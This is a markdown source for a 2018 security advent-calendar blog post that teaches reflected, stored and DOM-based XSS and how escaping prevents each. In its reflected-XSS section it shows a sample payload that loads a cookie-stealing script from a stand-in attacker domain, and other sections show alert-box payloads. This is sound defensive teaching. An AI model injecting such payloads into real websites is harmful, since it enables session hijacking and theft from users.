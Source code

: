 ```yaml
---
calendar: security
post_year: 2018
post_day: 13
title: Cross Site Scripting (XSS)
ingress: >-
  At the beginning, web pages were very static. They were written in HTML, and
  the web browser had one job, to render the HTML to a page filled with text,
  images and links. After a few years, the developers wanted more, and
  JavaScript got introduced.Together with JavaScript came a new breed of
  vulnerabilities, where the attackers could exploit the possibility to run code
  in browsers, this was called Cross Site Scripting or XSS.
links:
  - title: CSRF
    url: 'https://security.christmas/2018/4'
  - title: Injections
    url: 'https://security.christmas/2018/8'
  - title: OWASP XSS
    url: >-
      https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet
authors:
  - Stian Fredrikstad
---
```

JavaScript has a lot of possibilities, and a lot of responsibility in modern web applications. First of all, JavaScript can see and read (almost) everything that is sent to the browser, e.g. all the countermeasures we wrote about [CSRF](https://security.christmas/2018/4) some days ago, are no longer valid. This is because JavaScript can read everything, even if it is hidden on the page, send and read as the user.

In addition, JavaScript can read secrets hidden under the domain, like the session cookie. There are countermeasures against it, because JavaScript does not need to explicitly set the cookie on the requests, this is done by the browser automatically. By setting the flag `HttpOnly`, a cookie can never be read by JavaScript, only sent as a header on http requests. But it is a nice example of what we can do, so let us use it.

An XSS can happen in many circumstances, but the main reason is that a user can inject unescaped HTML in a website.This is similar to what we discussed in the post about [Injections](https://security.christmas/2018/8), and in HTML (or XML), the `<`, `>` and `"` are very important for the markup, there are more, but let us start with those. An escaped version of `<` is `&lt;` and `>` is `&gt;` and `"` is `&quot;`, short for "less than, "greater than" and quote if you want to remember those.

### Reflected XSS

If we imagine we are Google. We have a search input field named `q`, where the query is inserted, and the query is put as a get parameter in the url. If we insert `santa`, and click search, the url will be `https://www.google.com?q=santa`. And the input field will render like `<input type="text" name="q" value="santa" />`. If the rendering of the `value` in the input field is not escaped. An attack could be to insert

```html
santa" /><script src="https://www.santastealscookies.com/cookiestealer"></script>
```

This will render the input field like

```html
<input
  type="text"
  name="q"
  value="santa"
/><script src="https://www.santastealscookies.com/cookiestealer"></script
>" />
```

As we see, `" />` closes the input field and let the attacker continue to write HTML. Which in this case let santa steal all the cookies from the users who click on the link with the malicious input.

This is called "Reflected XSS", because the input from the user is reflected on the website But this does also limit the reach of such an attack, because the user often needs to click on something before it works.

### Stored XSS

We also have the "Stored XSS", which is quite similar to "reflected XSS", but here the malicious input is stored on the server, and could possibly affect all users. If Santa creates a blog where he writes about his Christmas preparations, he would likely create a comment section for input from his fans. The comments are printed out in the bottom of each blog post, but Santa forgot to escape the comments on the web server. If the Grinch finds this, and creates a comment with the input:

```html
<script>
  alert('The Santa does not exist');
</script>
```

All the readers of that blog post are met by a popup with the text "Santa does not" exist.

As we see in this last example, the XSS does not need to happen in an attribute. It can happen all places where text is rendered. That is why the web server should always escape everything, except those places you actually write HTML-code.

### DOM based XSS

The last type of XSS is "DOM based XSS". The main difference between this and the other two, is that it all happens in JavaScript. JavaScript has methods like `innerHTML`, which can be used to fill another element with text, but it does also allow HTML to be written.

As a simple example, we have a `div` with the id `website`, where we want to display the url of the current website. Code to fill this could look like:

```html
<script>
  document.getElementById('website').inneHTML = document.baseURI;
</script>
```

An example of a malicious url would be `https://www.santaisbad.com/#<script>alert("Santa is good");</script>`. And we will get the well-known alert box. But the most important is that the developer does not even know that the website is being exploited. The web browser does not send the `#`, and everything after it to the server, which makes it difficult discover.

In addition to escaping what we render, to get rid of "DOM based XSS", we need to go through the code and use the correct methods (or even delete vulnerable code where this can happen, like `eval`). Instead of using innerHTML, we should have used innerText and so on.

As a final reminder, escape everything, and take care when rendering mixes of text and HTML.

In many frameworks, both server and client side, it is the default behaviour to escape output, but you need to check this to be sure.
